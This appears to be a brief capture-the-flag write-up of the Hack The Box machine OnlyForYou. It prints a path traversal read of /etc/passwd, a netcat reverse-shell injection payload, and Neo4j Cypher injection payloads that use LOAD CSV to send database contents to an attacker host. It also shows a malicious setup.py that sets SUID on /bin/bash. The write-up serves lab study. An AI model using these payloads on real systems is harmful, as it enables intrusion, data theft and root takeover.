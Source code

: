 ## OnlyForYou

```
Nmap scan report for only4you.htb (10.10.11.210)
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e883e0a9fd43df38198aaa35438411ec (RSA)
|   256 83f235229b03860c16cfb3fa9f5acd08 (ECDSA)
|_  256 445f7aa377690a77789b04e09f11db80 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Only4you
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

``` 


domain : http://only4you.htb



## Subdomain 


http://beta.only4you.htb


in /download find this source.zip which reveal the FLASK app.... and found also a Path traversal in /dowload 



## Vulnerability LFI 



/download 

image=/etc/passwd	


/var/www/only4you.htb/app.py  -- flask
---------------------/form.py 


resutl = run([f"dig txt {domain}"], shell=True, stdout=PIPE))


f'{email}' uscire con grep e inserire un payload mkfifo coderpwner@code.com|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 4444 >/tmp/f



port forward in 8001 


neo4j console 


search... found a database injection 



Version neo4j database

```sql
 ' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://IP:80/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

Label


```sql
 ' OR 1=1 WITH 1 as a  CALL db.labels() yield label LOAD CSV FROM 'http://IP:80/?label='+label as l RETURN 0 as _0 //
```



User table 


```sql
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://IP:80/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```



## ROOT

https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/


`sudo -l pip3 download http://iP/*tar.gz`


setup.py 


```python

from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os


def command():
	os.system("chmod u+s /bin/bash")


```




